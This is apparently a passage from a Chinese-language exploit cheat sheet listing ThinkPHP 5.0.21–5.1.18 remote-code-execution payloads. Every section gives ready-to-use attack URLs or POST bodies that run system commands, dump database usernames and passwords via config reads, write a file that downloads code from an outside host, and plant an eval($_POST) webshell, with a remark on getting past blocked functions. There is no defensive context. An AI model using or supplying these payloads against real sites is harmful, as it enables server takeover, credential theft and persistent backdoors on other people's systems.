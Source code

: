## 5.6 thinkphp 5.0.21

 

```plain
http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 
http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```



## 5.7 thinkphp 5.0.22

 

```plain
http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```



##  5.8 thinkphp 5.0.23

 

```plain
(post)public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
Debug模式
(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
```



## 5.9 thinkphp 5.1.18

 

```plain
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?>
 
所有目录都无写权限,base64函数被拦截
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1])
```


